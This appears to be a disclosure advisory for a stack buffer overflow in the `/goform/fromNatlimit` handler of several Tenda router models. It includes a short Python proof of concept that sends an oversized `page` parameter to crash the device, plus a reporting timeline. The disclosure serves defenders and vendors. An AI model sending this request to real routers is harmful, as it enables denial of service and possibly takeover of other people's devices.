 # Tenda Router Vulnerability on fromNatlimit function

This vulnerability lies in the `/goform/fromNatlimit` page which influences the lastest version of Tenda Router F1202,FH1202. (The latest version is [F1202V1.0BR_V1.2.0.20(408)](https://www.tenda.com.cn/download/detail-2671.html))[FH1202_V1.2.0.19_EN](https://www.tendacn.com/us/download/detail-2693.html) and influence PA202,PW201A

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `page`.

In function `fromNatlimit` it reads 1 user provided parameters `page` into `v2`, and the variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `v4`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fromNatlimit`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fromNatlimit?"
url += "page=" + "s" * 0x200


response = requests.get(url)
```

## Timeline

* 2022-06-29: Report to CVE & CNVD;


## Acknowledge
